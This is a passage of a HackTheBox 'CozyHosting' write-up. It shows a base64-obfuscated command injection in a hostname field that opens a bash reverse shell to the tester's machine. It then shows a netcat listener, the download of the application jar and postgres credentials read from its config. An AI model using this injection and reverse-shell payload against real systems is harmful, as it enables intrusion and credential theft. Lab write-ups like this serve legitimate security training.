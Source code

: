 ```bash
IP: 1.1.1.1
Hostname: ;echo${IFS}YmFzaCAtaSA+JiAvZGV2L3RjcC8xMC4xMC4xNC4xMTUvNzc3NyAwPiYxCg==${IFS}|base64${IFS}-d${IFS}|${IFS}bash;
```

```bash
┌─[✗]─[raccoon@cyberraccoon-virtualbox]─[~/_hacking/HackTheBox/Active/CozyHosting]
└──╼ $nc -nvlp 7777
Listening on 0.0.0.0 7777
Connection received on 10.129.105.136 51098
bash: cannot set terminal process group (990): Inappropriate ioctl for device
bash: no job control in this shell
app@cozyhosting:/app$ whoami
whoami
app
```

<h2>postgres creds</h2>

Immediately upon gaining access I see a jar file which is the backbone of this site. I grab that and sift around.

```bash
app@cozyhosting:/app$ ls          
ls
cloudhosting-0.0.1.jar
app@cozyhosting:/app$ python3 -m http.server 8081
python3 -m http.server 8081
10.10.14.115 - - [05/Sep/2023 00:13:26] "GET /cloudhosting-0.0.1.jar HTTP/1.1" 200 -
```

In the `application.properties` part of the jar there are credentials for postgres database access.

```bash
server.address=127.0.0.1
server.servlet.session.timeout=5m
management.endpoints.web.exposure.include=health,beans,env,sessions,mappings
management.endpoint.sessions.enabled = true
spring.datasource.driver-class-name=org.postgresql.Driver
spring.jpa.database-platform=org.hibernate.dialect.PostgreSQLDialect
spring.jpa.hibernate.ddl-auto=none
spring.jpa.database=POSTGRESQL
spring.datasource.platform=postgres
spring.datasource.url=jdbc:postgresql://localhost:5432/cozyhosting
spring.datasource.username=postgres
spring.datasource.password=Vg&nvzAQ7XxR
```

```bash
app@cozyhosting:/app$ psql -W "postgresql://postgres@localhost/postgres"
Vg&nvzAQ7XxR
```

Now we can enumerate databases, connect to one that sticks out, enumerate tables, then dump all the contents.
